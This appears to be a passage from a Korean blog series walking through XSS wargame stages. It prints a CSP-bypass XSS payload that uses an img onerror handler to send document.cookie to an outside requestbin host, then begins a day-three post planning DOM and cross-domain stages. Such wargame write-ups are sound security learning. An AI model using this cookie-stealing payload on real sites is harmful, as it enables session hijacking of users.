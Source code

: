이렇게 csp가 걸려있음을 확인할 수 있습니다.

```
?q=javascript:parent.document.getElementsByTagName("head")[0].innerHTML=`<img%20src=x%20onerror=%27location.href="http://requestbin.fullcontact.com/15j27ri1?a=".concat(document.cookie)%27>`
```

`head` 태그에 이미지를 추가해서 이미지 추가해서 그걸 로드하는 방식으로 이루어지게 되는데 `iframe` 안에 `parent`가 `iframe`을 불러온 부모프레임에 접근을 하는 것을 말한다.

그래서 `tag` 이름이 `head`인 것을 찾아내서 `innerHTML`에 `img` 태그 일부러 오류내서 `src='x' onerror` 핸들러에 XSS를 집어넣어서 성공시키면 된다. 우와! 대박



------


그럼 오늘은 여기서 안뇽!

### to be continue…



---

# XSS 3일차

### 이전편 요약

```
똑똑똑 여기 누가 있나요? 
XSS Wargame 문제를 풀면서 XSS에 대해서 알아가고 있는중입니다!
```


![img](https://blackperl-security.gitlab.io/img/post/2018-07-27-webtour-02/blog_web_owasp_xss_40.png)



안녕하세요… 스크립트 여러번 때리면서 현타온 yeali입니다.

지금 **stage 21**까지 풀었어요! 여러분들은 어디까지 푸셨나요?


![img](https://blackperl-security.gitlab.io/img/post/2018-08-17-webtour-03/web_xss3_17.png)

------



### XSS 여행 3일차 계획

> - #### 1. 동네 탐방(수천번의 노크 XSS)
>
>   - **stage 13 - Dom XSS**
>
>   - **stage 14 - Cross Domain**
>
>     
